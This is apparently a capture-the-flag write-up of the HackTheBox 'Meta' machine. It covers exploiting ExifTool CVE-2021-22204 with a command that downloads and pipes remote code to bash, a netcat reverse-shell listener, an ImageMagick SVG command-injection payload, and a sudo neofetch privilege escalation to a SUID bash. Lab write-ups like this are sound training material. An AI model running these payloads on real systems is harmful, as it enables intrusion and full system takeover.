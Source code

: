 ```yaml
---
title: HackTheBox - Meta
categories: htb 
excerpt: | 
   Meta is a medium difficulty Linux machine.

feature_text: |
  ## Meta - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a simple page in production phase, but it seems like it hasn't any mistake. Let's turn to subdomains enumeration to enumerate others existing virtual hosts.
```
sudo gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb -t 200
```

There is a new subdomain: dev01.artcorp.htb add it to the /etc/hosts. Here is an image uploader which seems to use an application to extract all metadata from your image.

Exif Tool: An utility to extract all metadata from an image input.

### Exploit vulnerabilities
Looking for an exploit of this utility, we will find a CVE on [AssassinUKG's](https://github.com/AssassinUKG/CVE-2021-22204) github profile.

It will create a new metadata with a command in base64. ExifTool will interprete it as a php code. 
```
sudo ./exploit.sh "system('wget -qO- http://<tu_ip> | bash')" happy.jpg
```
You have to create a shared service with python `python3 -m http.server 80` and listen at 443 port `rlwrap nc -lnvp 443` to receive an interactive console.

### Migrating of user
Take a look of some execution process and get one that is executed as other user.
```
#!/bin/bash
process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$process") <(echo "$new_process") | grep "[\<\>]" | grep -vE "procmon|command|kworker"
        process=$new_process
done
```
>\> /bin/sh -c /usr/local/bin/convert\_images.sh
It is a script that use mogrify: Version: ImageMagick 7.0.10-36


Take a look of searchsploit there is one way to inject command in a file. Creating a .svg file will result in our payload being executed on the next cron execution
``` html
<image authenticate='ff" `whoami > /dev/shm/whoami.txt`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:rce.svg" height="100" width="100"/>
</svg>
</image>
```
To see your directory every second use this command:
```
watch -n 1 ls -l /dev/shm
```
And there we go. You're Thomas. Get his ssh private key and create a new conexion.


### Privilege Scalation
Check sudo permission with: sudo -l 
```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```
neofetch can be run as root without any password. Can we change the function of neofetch? Well. As you can see there is a `env_keep+=XDG_CONFIG_HOME`. Take a look what's this enviornment. `cat /home/thomas/.config/neofetch/config.conf | grep XDG_CONFIG_HOME`:
```
XDG_CONFIG_HOME="${XDG_CONFIG_HOME:-${HOME}/.config}"
    ...
    mkdir -p "${XDG_CONFIG_HOME}/neofetch/"
    ...
```
It seems like this variable defines what config file is preload. So editing this variable as follow: `XDG_CONFIG_HOME=/home/thomas/.config/neofetch/config.conf` and editing this config file to change the permission of a /bin/bash to set it SUID `chmod u+s /bin/bash`, we can get a bash as root `/bin/bash -p` (p indicate privilege mode).
Et voilà! Congratulations 
